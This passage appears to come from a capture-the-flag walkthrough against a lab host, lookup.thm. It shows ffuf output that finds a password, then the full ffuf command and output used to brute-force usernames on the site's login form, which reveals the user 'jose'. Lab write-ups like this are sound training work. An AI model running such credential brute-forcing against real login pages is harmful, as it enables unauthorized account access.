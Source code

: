 ```terminal
password123             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 940ms]                                                                                                         
:: Progress: [222/222] :: Job [1/1] :: 35 req/sec :: Duration: [0:00:07] :: Errors: 0 ::           

```

We found the password, but trying to log in with it still gives `wrong username or password`.

Let's try enumerating another user.

```terminal
[★]$ ffuf -c -w /usr/share/seclists/Usernames/Names/names.txt -u http://lookup.thm/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d 'username=FUZZ&password=passw
ord123' -fw 10                                                                                                                                                                                
                                                                                                                                                                                              
        /'___\  /'___\           /'___\                                                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                       
                                                                                                                                                                                              
       v2.1.0-dev                                                                                                                                                                             
________________________________________________                                                                                                                                              
                                                                                                                                                                                              
 :: Method           : POST                                                                                                                                                                   
 :: URL              : http://lookup.thm/login.php                                                                                                                                            
 :: Wordlist         : FUZZ: /usr/share/seclists/Usernames/Names/names.txt                                                                                                                    
 :: Header           : Content-Type: application/x-www-form-urlencoded                                                                                                                        
 :: Data             : username=FUZZ&password=password123
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 10
________________________________________________

jose                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 175ms]
```
